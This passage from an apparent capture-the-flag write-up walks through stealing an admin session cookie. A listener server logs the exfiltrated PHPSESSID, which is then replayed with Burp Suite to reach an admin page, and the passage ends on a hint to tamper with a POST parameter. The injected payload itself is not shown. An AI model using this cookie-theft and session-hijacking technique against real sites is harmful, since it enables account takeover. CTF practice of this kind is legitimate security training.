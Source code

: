 ```php
?>
```

Once injected, we run a Python simple HTTP server on our AWS server and patiently wait for the cookie.

```sh
>> python3 -m http.server 1234

Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...
178.128.218.40 - - [08/Nov/2021 08:36:51] "GET /?cookie=PHPSESSID=4e5a5f5490afa3c2e8dd14b6d7e112fd HTTP/1.1" 200 -
```

![](Images/40.png)

Once we get the cookie, we use `burpsuite` to manipulate the cookie in the login.php page.

![](Images/41.png)

We were taken to the landing_admin.php page. The hint is that we have to manipulate the POST parameter, `filter`, to get the flag.

![](Images/42.png)
